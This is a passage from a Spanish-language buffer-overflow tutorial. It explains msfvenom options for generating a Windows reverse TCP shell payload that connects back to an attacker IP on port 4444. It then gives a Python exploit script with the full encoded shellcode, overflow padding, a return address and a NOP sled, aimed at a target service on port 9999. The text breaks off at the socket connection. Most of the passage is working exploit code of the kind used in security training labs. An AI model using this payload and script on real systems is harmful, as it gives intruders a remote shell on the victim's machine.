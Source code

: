 * **-p windows/shell_reverse_tcp**: Este es el payload que se usará, en este caso, un shell inverso para sistemas Windows que utiliza el protocolo TCP.
* **LHOST=IP_ATACANTE**: Aquí se debe especificar la dirección IP de la máquina atacante, es decir, la máquina desde la cual se controlará el ataque.
* **LPORT=4444**: El puerto en el que se escuchará la conexión desde la máquina víctima. En este ejemplo se usa el puerto 4444, pero puede ser cualquier puerto abierto en la máquina atacante.
* **-f c**: Este parámetro indica que el formato de salida del shellcode será en lenguaje C, para facilitar su inclusión en el script de Python.
* **-a x86**: Se especifica que el shellcode debe ser compatible con una arquitectura x86.
* **-b "\x00"**: La opción -b permite excluir ciertos caracteres del shellcode. En este caso, se excluye el byte nulo (\x00), ya que este puede causar problemas en la ejecución.

### Ejecución de MSFvenom

Al ejecutar el comando anterior, MSFvenom generará el shellcode, que será una cadena de bytes en formato hexadecimal. Un ejemplo del resultado sería algo similar a lo siguiente:

```c
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52..."
```

Este código es la carga útil que se inyectará en la máquina víctima.

### Inclusión del Shellcode en el Script

Una vez generado el shellcode, se debe incluir en el script de Python que se ha estado utilizando. Para ello, se define una variable que contenga el shellcode y se añade al flujo del ataque.

```python
#!/usr/bin/python
import sys, socket

overflow = (
"\xba\x49\xb4\x42\x37\xdb\xdd\xd9\x74\x24\xf4\x5e\x2b\xc9"
"\xb1\x52\x31\x56\x12\x03\x56\x12\x83\xa7\x48\xa0\xc2\xcb"
"\x59\xa7\x2d\x33\x9a\xc8\xa4\xd6\xab\xc8\xd3\x93\x9c\xf8"
"\x90\xf1\x10\x72\xf4\xe1\xa3\xf6\xd1\x06\x03\xbc\x07\x29"
"\x94\xed\x74\x28\x16\xec\xa8\x8a\x27\x3f\xbd\xcb\x60\x22"
"\x4c\x99\x39\x28\xe3\x0d\x4d\x64\x38\xa6\x1d\x68\x38\x5b"
"\xd5\x8b\x69\xca\x6d\xd2\xa9\xed\xa2\x6e\xe0\xf5\xa7\x4b"
"\xba\x8e\x1c\x27\x3d\x46\x6d\xc8\x92\xa7\x41\x3b\xea\xe0"
"\x66\xa4\x99\x18\x95\x59\x9a\xdf\xe7\x85\x2f\xfb\x40\x4d"
"\x97\x27\x70\x82\x4e\xac\x7e\x6f\x04\xea\x62\x6e\xc9\x81"
"\x9f\xfb\xec\x45\x16\xbf\xca\x41\x72\x1b\x72\xd0\xde\xca"
"\x8b\x02\x81\xb3\x29\x49\x2c\xa7\x43\x10\x39\x04\x6e\xaa"
"\xb9\x02\xf9\xd9\x8b\x8d\x51\x75\xa0\x46\x7c\x82\xc7\x7c"
"\x38\x1c\x36\x7f\x39\x35\xfd\x2b\x69\x2d\xd4\x53\xe2\xad"
"\xd9\x81\xa5\xfd\x75\x7a\x06\xad\x35\x2a\xee\xa7\xb9\x15"
"\x0e\xc8\x13\x3e\xa5\x33\xf4\x81\x92\x3b\x0f\x6a\xe1\x3b"
"\x1e\x36\x6c\xdd\x4a\xd6\x38\x76\xe3\x4f\x61\x0c\x92\x90"
"\xbf\x69\x94\x1b\x4c\x8e\x5b\xec\x39\x9c\x0c\x1c\x74\xfe"
"\x9b\x23\xa2\x96\x40\xb1\x29\x66\x0e\xaa\xe5\x31\x47\x1c"
"\xfc\xd7\x75\x07\x56\xc5\x87\xd1\x91\x4d\x5c\x22\x1f\x4c"
"\x11\x1e\x3b\x5e\xef\x9f\x07\x0a\xbf\xc9\xd1\xe4\x79\xa0"
"\x93\x5e\xd0\x1f\x7a\x36\xa5\x53\xbd\x40\xaa\xb9\x4b\xac"
"\x1b\x14\x0a\xd3\x94\xf0\x9a\xac\xc8\x60\x64\x67\x49\x80"
"\x87\xad\xa4\x29\x1e\x24\x05\x34\xa1\x93\x4a\x41\x22\x11"
"\x33\xb6\x3a\x50\x36\xf2\xfc\x89\x4a\x6b\x69\xad\xf9\x8c"
"\xb8")

shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
ip_address ='reemplazar por la ip del target'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
```